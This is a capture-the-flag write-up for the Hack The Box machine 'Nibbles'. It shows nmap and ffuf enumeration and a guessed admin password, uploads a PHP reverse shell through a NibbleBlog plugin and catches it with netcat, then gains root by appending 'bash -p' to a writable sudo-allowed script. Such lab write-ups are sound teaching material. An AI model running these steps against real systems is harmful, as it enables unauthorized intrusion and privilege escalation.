






# Nibbles

[Nibbles](https://app.hackthebox.com/machines/Nibbles) is an easy machine which focuses a bit on enumeration and a slightly different method for privilege escalation. 

So, let's begin!

## Enumeration

The first to be done would be to determine the ports that are open on the machine.

```
┌──(kali㉿kali)-[~/Desktop/htb/nibbles]
└─$ sudo nmap -p- -sS -T4 -oG open_ports 10.10.10.75     
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-21 15:45 EDT
Nmap scan report for 10.10.10.75
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 919.59 seconds
```

It can be seen that only ports 22 and 80 are open. So, we can go ahead and check if we can access the website on port 80.



It can be seen that there is nothing except for "Hello world!" on the page but if we check the source-code then we can see that it mentions another directory `/nibbleblog`.



When we go to the `/nibbleblog` directory we can see that it looks like a blog and is built up on something called as "Nibbleblog". But there is not much to this so we can start a directory brute-force scan against this path.

```
┌──(kali㉿kali)-[~/Desktop/htb/nibbles]
└─$ ffuf -u http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.75/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.hta                    [Status: 403, Size: 301, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 306, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 306, Words: 22, Lines: 12]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10]
admin.php               [Status: 200, Size: 1401, Words: 79, Lines: 27]
content                 [Status: 301, Size: 323, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2987, Words: 116, Lines: 61]
languages               [Status: 301, Size: 325, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10]
:: Progress: [4713/4713] :: Job [1/1] :: 416 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

We can check each directory and page that was detected in this scan. To begin, we can take a look at README.



Using the version number we can google for exploits specific to this version.

## Gaining Foothold

We can find a [Shell Upload](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html) exploit but for that we need admin access. This indicates that we need to gain access through the `admin.php` page. We don't have the credentials but we can check the files in `/content` and `/admin` to see if we can find something interesting.



We don't find any exact credentials but from the file `/nibbleblog/content/private/users.xml` we can confirm that an account with username `admin` does exist. Also, it looks like they have some kind of mechanism to protect against password brute-forcing so we need to manually guess some password to login.

We can try combinations like `admin:admin`, `admin:pass`, `admin:password` and a few others. But finally the one that works is `admin:nibbles`.

Now that we have access as admin, we can upload the reverse shell through the "My image" plugin as explained in the exploit. We can use a the [PentesterMonkey's PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) payload. All that needs to be done is just add our own IP address and change the port if required.



Once the php file is uploaded, it might throw some errors but they can be ignored. To confirm that our payload has been uploaded, we can check it in the directory: `/nibbleblog/content/private/plugins/my_image/`.



It can be seen that it was uploaded as `image.php`. Before accessing the file make sure to start a listener using the command `nc -nlvp 1234` to catch the reverse shell.

```
┌──(kali㉿kali)-[~/Desktop/htb/nibbles]
└─$ nc -nlvp 1234                                                                                     
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.75] 35516
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 03:41:54 up 11:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ pwd
/
```

By opening the PHP file, we get our reverse shell as user `nibbler` through which we can even read the user flag.

## Privilege Escalation

The next task is to escalate our privileges and become root. To do this, the first thing that we can check would be the commands that we can run as root or any other user.

```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Looks like we can run a specific shell script as root. So, if we can modify the content of that script in some way then we pop a shell as root. But in the user's directory we can't find that script.

```
$ ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Aug 22 03:45 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Aug 21 15:44 user.txt
```

Though there is a zip file which can try to extract.

```
$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
$ cd personal
$ cd stuff
$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We can find the `monitor.sh` script in there and looks like we have write access to that file. So, we can just add a command like `bash -p` at the end of the script and then when we run it as root it should give us root's shell.

```
$ echo "bash -p" >> monitor.sh
$ sudo -u root ./monitor.sh
whoami
root
cd /root
pwd
/root
```

And there we get the root access!

## Some Key Points to Take Away

1. Use the Seclist Web Discovery wordlist whenever you are enumerating a website.
2. When guessing password, think about the application name, machine and any other associated details.

## References

1. [Nibbles](https://app.hackthebox.com/machines/Nibbles)
2. [Nibble Shell Upload Vulnerability](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)
3. [PentesterMonkey's PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)